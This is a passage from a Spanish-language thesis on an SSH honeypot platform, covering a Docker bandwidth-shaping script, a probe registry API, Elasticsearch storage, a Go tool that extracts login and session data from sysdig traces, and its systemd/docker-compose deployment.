    
        # filter *everything* to it (0.0.0.0/0), drop everything that's
        # coming in too fast:
    
        tc filter add dev $iface parent ffff: protocol ip prio 50 u32 match ip src \
        0.0.0.0/0 police rate ${maxbwidth_download}kbit burst 10k drop flowid :1
    
    }
    
    get_bridge_docker_device(){
        local _outvar=$1
        local docker_network_name=$2
        local docker_network_id=$(docker network ls | grep $docker_network_name | cut -f1 -d' ')
        local result=""
        if [[ -z "$docker_network_id" ]]; then
            echo "unable to get bridge id from docker, refusing to continue, maybe it not exists?"
            result="NO_DEV"
            eval $_outvar=\$result
        return
        fi
        IFACE="br-$docker_network_id"
        ifconfig $IFACE &> /dev/null
        if [[ $? -ne 0 ]]; then
            echo "unable to contact bridged interface <$IFACE>, refusing to continue"
            result="NO_DEV"
            eval $_outvar=\$result
        return
        fi
        result="br-$docker_network_id"
        eval $_outvar=\$result
    }
    
    do_start() {
        local iface=""
        local docker_network_name=$1
        get_bridge_docker_device "iface" "$docker_network_name"
        if [[ "$iface" == "NO_DEV" ]]; then
          echo "unable to get interface, refusing to continue"
          exit 1
        fi
        clean_rules $iface
        start_traffic_shape $iface
    }
    
    do_stop() {
        local iface=""
        local docker_network_name=$1
        get_bridge_docker_device "iface" "$docker_network_name"
        if [[ "$iface" == "NO_DEV" ]]; then
          echo "unable to get interface, maybe it not exists"
          exit 0
        fi
        clean_rules $iface
    }
    
    do_status() {
        local number_of_rules=$(tc qdisc show | wc -l)
        if [[ $number_of_rules -gt 2 ]]; then
            echo "$0 is ENABLED"
        else
            echo "$0 is DISABLED"
        fi
    }
    
    
    case "$1" in
       start)
         do_start $2
         ;;
       stop)
         do_stop $2
         ;;
       restart)
         do_stop $2
         do_start $2
         ;;
       status)
         do_status
         ;;
       *)
         echo "Usage: /etc/init.d/$NAME start DOCKER_NETWORK_NAME | stop DOCKER_NETWORK_NAME | status"
         exit 1
         ;;
    esac
    
    exit 0    
\end{minted}
\captionof{listing}{\emph{tc\_manager} script que controla ancho de banda usado en \emph{Docker} \label{listing:tc-manager-script}}
\bigskip


\section{Arquitectura del colector}
\label{sec:arquitecura-del-colector}

El servidor que realiza las funciones de recolector, también realiza las funciones
de \emph{backend} y \emph{frontend} de la API de clientes. La razón principal
es economica, y si la carga de la API o el almacenamiento disponible se queda pequeño
habría que incorporar más servidores para la sostenibilidad del proyecto.

Igualmente ésta situación provoca una situación en la que éste servidor se convierte en un 
punto de fallo, si el servidor cae, la recolección de trazas y la API dejarán de funcionar.

Sin embargo, en el diagrama \ref{fig:arquitectura-general}, se recogen todos los procesos involucrados
en la recolección y la API y su interacción con las sondas. Dicha interacción y relación no cambiaria pese
a que añadamos más servidores por razones de escalabilidad y resiliencia.

\begin{figure}[h]
    \centering
      
\includegraphics[scale=0.5]{images/collector_architecture}
    \caption{Diagrama de arquitectura del recolector}
    \label{fig:arquitectura-recolector}
  \end{figure}

\subsubsection{Microservicios}

El conjunto \textbf{NO} sigue una arquitectura de microservicios \cite{fowler-microservices}, pero sigue una arquitectura
orientada a servicios (SoA). En general cada elemento del diagrama \ref{fig:arquitectura-recolector} reune las siguientes
caracteristicas:

\begin{itemize}
    \item Son desplegados en un \emph{container}, y tiene un ciclo de vida independiente. Por ejemplo, se puede desplegar una nueva
    versión de \emph{metadata\_extractor}, el procesador de trazas, sin tener que desplegar otros componentes de la arquitectura
    siempre y cuando no haya cambios en la interfaz común entre componentes.
    \item Realizan una sola función o un número limitado de funciones bien definidas.
    \item Se asume que cada elemento puede compartir la red con otro elemento. Esto es asi porque se lanzan en la misma maquina, y ayuda
    a simplificar la diagnosis en caso de problemas a costa de aumentar el acoplamiento.
    \item Existe acoplamiento entre elementos, esto va en contra de la arquitectura de microservicios.
    \item Se comparten bases de datos, esto va en contra de la arquitectura de microservicios.
\end{itemize}

No utilizar una arquitectura de microservicios creemos que es una decisión correcta para este caso, puesto que cambiar la arquitectura
actual a una de microservicios requeriria la introducción posiblemente de un \emph{backbone} de eventos o un sistema de colas y del despiece de la
base de datos y replicación para dotar a cada microservicio con su base de datos independiente.

Además, esto solo tendría sentido si el equipo técnico a cargo del proyecto fuese tan elevado que el coste de asumir esta arquitectura
(proceso de construcción independiente para cada servicio, test, definición de interfaces \ldots) lo justificase y no es el caso.

\subsection{API de registro para las sondas}
\label{subsec:sinker-registry-api}

Como se comentaba en la descripción de riesgos de la sonda \ref{fig:riesgo_sonda}, las sondas son maquinas efimeras que se
crean y destruyen con cierta frecuencia, pero de las que necesitamos metadatos tales como el proveedor del servidor, 
la región geografica en la que se encuentra o la dirección IP.

Por ello, necesitamos una API de registro donde se almacenen los datos de estas sondas. 

\subsubsection{Contrato de la API}

\begin{tabular}[!h]{|c|c|c|}
    \hline
    \thead{Verbo HTTP} & \thead{URL} & \thead{comentarios} \\
    \hline
    GET & /v1/probe/ & Listado de todas las sondas. \\
    \hline
    GET & /v1/probe/ip/:ip & Listado de sondas que tengan la IP :ip. \\
    \hline
    GET & /v1/probe/:id  & Listado de sondas que tengan el ID :id. \\
    \hline
    GET & /v1/probe/ssh/:id & Lista de claves SSH de la sonda con ID :id \\
    \hline
    GET & /v1/probe/name/:fqdn & Lista de sondas con el nombre DNS :fqdn \\
    \hline
    POST & /v1/probe & Crear una nueva sonda, el \emph{payload} puede verse en código \ref{listing:json-api-sinker} \\
    \hline
    PUT & /v1/probe/disable/:id & Deshabilita la sonda con ID :id, no sale en listados \\
    \hline
    PUT & /v1/probe/enable/:id & habilita la sonda con ID :id \\
    \hline
    PUT & /v1/probe/tracespath/:id & Modifica directorio de trazas para sonda con ID :id \\
    \hline
    DELETE & /v1/probe/delete/:id & Elimina sonda del registro con ID :id \\
    \hline
    \end{tabular}
    \captionof{table}{\label{tab:definicion-sinker-api} Definicion de la api}
    

    \begin{minted}[fontsize=\footnotesize]{json}
        {
            ProbeID: "JyuU2_rTy2uU4x37Q_rURqpknnFX1VEWpZzhFg==",
            fqdn: "srv01.superprivyhosting.com",
            ipv4: "45.32.157.125",
            ipv6: "",
            provider: "Vultr",
            geolongitude: "8.728100",
            geolatitude: "50.117199",
            country: "Germany",
            sshprivateKey: "X",
            sshpublicKey: "Y",
            tracespath: "/var/log/traces",
            enabled: true,
            created_at: "2017-07-07T05:16:56.207424127Z",
            updated_at: "2017-07-21T09:50:18.528418195Z",
            disabled_at: "0001-01-01T00:00:00Z"
        }
    \end{minted}
    \captionof{listing}{Ejemplo de listado de una sonda en JSON de la \emph{Sinker Registry API} \label{listing:json-api-sinker}}

La API realiza las siguientes convenciones:

\begin{itemize}
    \item Cada identificador es unico, no habrá dos sondas con el mismo identificador.
    \item Cada IP estará registrada a una sonda y a un nombre DNS, un mismo servidor no puede ofrecer más de una sonda (aunque si multiples servicios).
    \item Aunque no está implementado, si añadiesemos la componente temporal se podrian habilitar, deshabilitar y consultar las sondas existentes por fecha además
    de por identificador, IP o nombre DNS.
\end{itemize}

\subsubsection{Clientes de \emph{Sinker Registry API}}

La API es de uso interno, no es visible desde el exterior, sólo es visible para las sondas y para el servicio de \emph{metadata\_extractor}.
Cuando vía \emph{Ansible} se crea y se configura una nueva sonda, como parte del \emph{playbook} , listado de pasos para crear la sonda , se
realiza una llamada a la API para registrarla. Dicho proceso puede verse en detalle en el diagrama de secuencia UML \ref{fig:uml-sequence-post-probe}.
Si el registro ha sido exitoso la API devolverá un código 201 y un \emph{JSON} que incluye el ID de la sonda recien creada.

El diagrama de secuencia UML \ref{fig:uml-sequence-get-probe} muestra como se obtiene el listado de sondas a traves de su IP y la interacción
de diversos objetos.

\begin{figure}[htp]
    \centering
      
\includegraphics[scale=0.6]{images/UMLSequenceGetProbe}
    \caption{Diagrama de secuencia de UML de la API: GET}
    \label{fig:uml-sequence-get-probe}
\end{figure}

\begin{figure}[htp]
    \centering
      
\includegraphics[scale=0.6]{images/UMLSequencePostProbe}
    \caption{Diagrama de secuencia de UML de la API: POST}
    \label{fig:uml-sequence-post-probe}
\end{figure}

\subsubsection{Implementación de la API}
\label{subsubsec:sinkers-registry-api-implementacion}

la API sigue el patrón MVC y se diseña como API REST, se escoge \emph{Go} como lenguaje de programación para implementarla, se escoge \emph{Go} 
como lenguaje para implementarla para mantener la homogeneidad con otras herramientas del proyecto, facilitar la reutilización de código,
por ser fácil de distribuir y desplegar (acaba siendo un binario estatico), tener un muy buen soporte a la concurrencia y una biblioteca
estandar de HTTP muy versatil y potente.

Aunque la biblioteca estandar de \emph{Go} ya incluye un paquete de HTTP potente que podemos utilizar, se decide utilizar un \emph{framework} 
que permita la creación de la API de manera más rapida. Escogemos \emph{Beego} como \emph{framework} por ofrecer un \emph{ORM},
\emph{routers HTTP} y una \emph{CLI} para probar y desplegar la API entre otras funcionalidades y ser simple y completo para nuestros
propositos.

\subsection{Base de datos.}

Como se analizo en \ref{subsec:modelo-de-datos}, nuestra base de datos ha de reunir las siguientes caracteristicas:

\begin{itemize}
    \item Orientada a busquedas. La inserción se realizará muy poco frecuentemente, idealmente una sola vez (salvo reprocesados).
    \item Escalable y particionada. Como analizamos previamente, la información es menos relevante cuanto menos reciente sea, por lo tanto es importante
    ser capaces de particionar nuestra base de datos para albergarla completa por interes estadistico y ser capaz de eliminar una partición sin afectar al rendimiento del conjunto.
\end{itemize}

Por estas razones se escoge \emph{Elasticsearch} como base de datos. \emph{Elasticsearch} es una base de datos orientada a busqueda que permite
busquedas rapidas de texto y que permite también la creación de series temporales.

\subsection{Recolección y procesado de trazas}
\label{subsec:extraccion-trazas}

El servicio \emph{metadata\_extractor} se encarga de la recolección de trazas y de la extracción de datos de las mismas.
\emph{metadata\_extractor} es una aplicación de consola escrita en \emph{Go}, depende de la API de sondas y aunque puede prescindir de ella
en el proceso habitual también depende de \emph{Elasticsearch}.

\begin{minted}[fontsize=\scriptsize]{console}
    ./metadata_extractor -h
    This silly application reads from sysdig traces from potted containers 
    and extracts data from them. It has
    two functioning modes, one that process capture files from arguments 
    and other that watches changes in filesystem through fanotify and process them
    
    Usage:
      metadata_extractor [command]
    
    Available Commands:
      file        sync files from ssh potted containers
      ssh         extracts metadata from ssh potted containers
    
      Flags:
      -b, --bandwidthlimit string       Amount of bandwidth in KiB used for syncing files (default "1024")
      -c, --config string               config file (default is $PWD/.metadata_extractor.yaml 
                                        and $HOME/.metadata_extractor.yaml)
          --elasticsearch_host string   host to connect to elasticsearch
          --elasticsearch_port string   port to connect to elasticsearch
      -f, --follow                      follow traces created on fs, needs -i parameter
      -o, --output string               where to output between cli and es
      -i, --probeid string              probe id on sinkers API
      -s, --sinker_api_url string       sinker_api_url (default "http://main01.superprivyhosting.com:38080")
      -d, --tracebasepath string        Where the traces are stored  (default "/var/log/traces")
      -v, --verbose                     gives detailed logging
\end{minted}
\captionof{listing}{texto de ayuda de \emph{metadata\_extractor} \label{listing:metadata-extractor}}
\bigskip
\emph{metadata\_extractor} puede leer de un fichero de configuración en lugar de ser pasado como uno de los argumentos descritos en la ayuda, en caso
de proporcionar ambos el argumento siempre tendrá prioridad.



% que es, es una CLI hecha en GoLang
% dos funciones principales, recoge trazas usando rsync, para eso consulta a la Sinker registry API donde hay
% claves ssh que puede usar para acceder al directorio de trazas.


\subsubsection{Recolección de trazas}

\emph{metadata\_extractor} recolectará trazas si se le pasa como argumento el comando \emph{file}. Necesitará los siguientes
parametros:

\begin{itemize}
    \item[\textbf{-i}] Ya que cada sonda puede almacenar trazas en una ruta diferente, necesitamos pasarle el 
                       id de la sonda para que \emph{metadata\_extractor} consulte en \emph{Sinker Registry API}
                       la ruta indicada la ruta, y la clave SSH que utilizará para descargar las trazas. Para este fin
                       las sondas crean un usuario denominado \emph{file} con únicamente permisos para leer trazas en las sondas, y
                       se crean claves SSH para dicho usuario que se publican en la API.
    \item[\textbf{-s}] La URL donde la API de \emph{Sinker Registry} se encuentra, tiene un valor por defecto pero puede ser modificando
                       para realizar pruebas y/o para tener diversos entornos.
    \item[\textbf{-d}] La ruta donde \emph{metadata\_extractor} escribirá las trazas recolectadas, para guardarlas en el recolector
                       montamos un directorio del \emph{host} como volumen en \emph{Docker} (véase Código \ref{listing:metadata-extractor-docker-compose})
    \item[\textbf{-b}] Limite de ancho de banda utilizado para descargar trazas.
\end{itemize}

En el diagrama de secuencia \ref{fig:uml-sequence-file-metadata-extractor} se describe la operación de recolección y la interacción con la API de \emph{Sinker Registry}.

\begin{figure}[htp]
    \centering
      
\includegraphics[scale=0.4]{images/UMLSequenceFileOp}
    \caption{Diagrama de secuencia UML del comando file de \emph{metadata\_extractor}}
    \label{fig:uml-sequence-file-metadata-extractor}
\end{figure}

\subsubsection{Procesando trazas de \emph{containers} \emph{SSH}}

El otro comando implementado en \emph{metadata\_extractor} es el procesado de trazas para extraer información relativa abre
SSH, que es el protocolo que tenemos implementado en la \emph{honeypot}. El comando SSH utiliza los siguientes parametros:

\begin{itemize}
    \item[\textbf{-s}] Al igual que en para ficheros la URL donde se encuentra desplegada la API.
    \item[\textbf{-i}] El id de la sonda de la que procesaremos las trazas, se necesita para consultar la API y obtener metadatos
    sobre la sonda que serán incluidos en el formato de salida de la traza. 
    \item[\textbf{-f}] Este parametro activa la escucha continua de eventos de creación de ficheros en la ruta definida por el parametro \textbf{-d}. Básicamente 
    se utiliza el subsistema \emph{inotify} (véase \cite{wiki-inotify}) del kernel para recibir eventos de modificaciones en el sistema de archivos. Para cada
    evento de creación recibido se intenta procesar la traza. Si no se pasa este parametro, sólo se procesaran los ficheros pasados como argumento.
    \item[\textbf{-o}] Donde se escribiran los datos extraidos, actualmente se implementan dos modulos de escritura, escritura a consola textual
    y escritura a la base de datos \emph{Elasticsearch}, en el caso de seleccionar esta última hay que indicar donde se encuentra la interfaz HTTP de \emph{Elasticsearch} y
    en que puerto (\emph{--elasticsearch\_host} y  \emph{--elasticsearch\_port}). 
\end{itemize}

El detalle de la operación de extracción puede observarse en el diagrama de secuencia \ref{fig:uml-sequence-ssh-metadata-extractor} y en el código \ref{listing:metadata-extractor-handlers-ssh} listado en el anexo. 
El proceso de extracción de datos se basa en explorar la salida del proceso \emph{SSH}, \emph{SSH} es un protocolo de secreto perfecto (véase \cite{wiki-fsecrecy}) y
por tanto es imposible para nosotros inteceptar la comunicacion entre cliente y servidor. La única opción para obtener la información de la comunicación es a través
de la memoria del proceso que realiza la función de servidor, el handicap de este enfoque es que no tenemos el contexto de la comunicación y no siempre podremos
mantener el orden cronologico de eventos.

Afortunadamente, podemos utilizar el orden cronologico de eventos de la CPU como indicador cronologico y la salida del proceso SSH que nos da información contextual. Lamentablamente,
esto implica que en un contexto determinado podemos superponer eventos y ordenarlos de manera incorrecta. El proceso que seguimos es:

\begin{enumerate}
    \item Ejecutamos \emph{sysdig} sobre la traza con un filtro más concreto para extraer la información que nos interesa. Por ejemplo, para extraer la información
    del intento de \emph{login} en el servicio \emph{SSH} (línea 230 del código \ref{listing:metadata-extractor-handlers-ssh})o las ordenes ejecutadas en una sesión \emph{SSH} (línea 348 del código (línea 230 del código \ref{listing:metadata-extractor-handlers-ssh}).
    \item Analizamos la salida de \emph{sysdig} y obtenemos un listado de bloques de actividad y de \emph{login}. En el caso del \emph{login}, la salida nos devuelve
    el evento del intento de \emph{login}, su estado (si pudo iniciar sesión o no) y el nombre del usuario que realizó el intento, sin embargo, la contraseña se lee de manera independiente puesto que el cliente 
    envia el \emph{challenge} usuario y contraseña, el servidor los comprueba y registra el resultado del intento de inicio de sesión. Al poder existir varios intentos de conexión de manera concurrente,
    tenemos que asegurarnos que no asociamos una contraseña a un usuario que intenta otra conexión. Para \emph{intentar} conseguir esto, ordenamos los eventos de \emph{login} por fecha e ID del hilo (línea 38 a 48 del código \ref{listing:metadata-extractor-handlers-ssh-models}) agrupandolos por el identificador del hilo del proceso (línea 93 a 103 del código \ref{listing:metadata-extractor-handlers-ssh}), 
    y analizamos los eventos recibidos intentando asociar contraseña con el usuario que realiza el intento. A veces, el usuario no envia contraseña, esto será marcado como `NOTPASSWORD` a la hora del analisis.
\end{enumerate}

Pese a que el proceso descrito puede parecer complejo, tiene la ventaja de que podemos analizar cualquier servidor SSH sin modificar el código del servidor SSH
lo que hace que este metodo, con sus limitaciones (no se obtienen las claves SSH que se intentan, a veces se pierde la contraseña del intento \ldots), sea potente y proporcione datos de interés.

Los datos extraidos se guardan en \emph{Elasticsearch} donde podrán ser consultados por otros servicios, en dos indices diferentes, uno para \emph{logins}
y otro para \emph{actividades}.

\begin{sidewaysfigure}[htp]
    \centering
    
\includegraphics[scale=0.4]{images/UMLSequenceSSHOp}
    \caption{Diagrama de secuencia UML del comando SSH de \emph{metadata\_extractor}}
    \label{fig:uml-sequence-ssh-metadata-extractor}
\end{sidewaysfigure}

\subsubsection{Despliegue de metadata\_extractor}


Como en otros servicios ya explicados, creamos un \emph{daemon} que se encargará de lanzar los \emph{containers} del servicio \emph{metadata\_extractor}. Se ejecutan dos containers
por cada sonda, uno que recolecta trazas y otro que las procesa. También se puede lanzar un container de manera manual para reprocesar algunas trazas.

En el código \ref{listing:metadata-extractor-systemd} puede verse la unidad de \emph{systemd} que define al \emph{daemon} y sus dependencias,
el \emph{daemon} se encarga de lanzar un script similar al descrito en el código \ref{listing:containersvc-bash} que inicia el \emph{docker-compose}
descrito en el código \ref{listing:metadata-extractor-docker-compose}.


\begin{minted}[fontsize=\footnotesize]{console}
    [Unit]
    Description=Launch metadataextractor
    After=docker.service
    BindsTo=docker.service
    After=elasticsearchd.service
    BindsTo=elasticsearchd.service
    After=sinkerregistryapid.service
    BindsTo=sinkerregistryapid.service
    
    [Service]
    Type=forking
    ExecStart=/usr/local/sbin/metadataextractord start
    ExecStop=/usr/local/sbin/metadataextractord stop
    Requires=docker.service
    RemainAfterExit=no
    Restart=always
    PIDFile=/var/run/metadataextractord.pid
    
    [Install]
    WantedBy=multi-user.target    
         
\end{minted}
\captionof{listing}{Unidad \emph{systemd} que levanta el \emph{daemon} de \emph{metadataextractord} \label{listing:metadata-extractor-systemd}}
\bigskip


\begin{minted}[fontsize=\footnotesize]{console}
    version: "2"
    
    services:
      metadata_extractor_srv01_file:
        build:
          context: . #current dir as build context
          args:
            - CONFIGFILE=srv01metadataextractor.yaml
        image: metadata_extractor_srv01
        command: ./metadata_extractor -v file
        container_name: metadata_extractor_srv01_file
        network_mode: "host"
        restart: always
        volumes:
          - /var/log/traces:/var/log/traces
         
      metadata_extractor_srv01_ssh:
        build:
          context: . #current dir as build context
          args:
            - CONFIGFILE=srv01metadataextractor.yaml
        image: metadata_extractor_srv01
        command: ./metadata_extractor -v ssh -f
        container_name: metadata_extractor_srv01_ssh
        network_mode: "host"
        restart: always
        volumes:
          - /var/log/traces:/var/log/traces
         
\end{minted}
\captionof{listing}{\emph{docker-compose} de \emph{metadata\_extractor} \label{listing:metadata-extractor-docker-compose}}
\bigskip

\subsection{Recolección de \emph{logs} y procesado de alertas}

Tal y como se describe en \ref{subsec:notificaciones-falco}, se guardan las alertas en un fichero de log que se recupera a través de
\emph{rsyslog}. 
Se instala el servidor \emph{rsyslog} en el recolector y clientes \emph{rsyslog} en las sondas, y se configura \emph{rsyslog}
para utilizar un canal cifrado para la comunicación mediante certificados SSL firmados por nuestra propia CA.

Una visión general del proceso puede verse en el diagrama \ref{fig:alert-log-architecture} con todos los componentes involucrados.

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=0.4]{images/AlertasEnvioLog}
    \caption{Diagrama de recolección de alertas y componentes involucrados.}
    \label{fig:alert-log-architecture}
\end{figure}

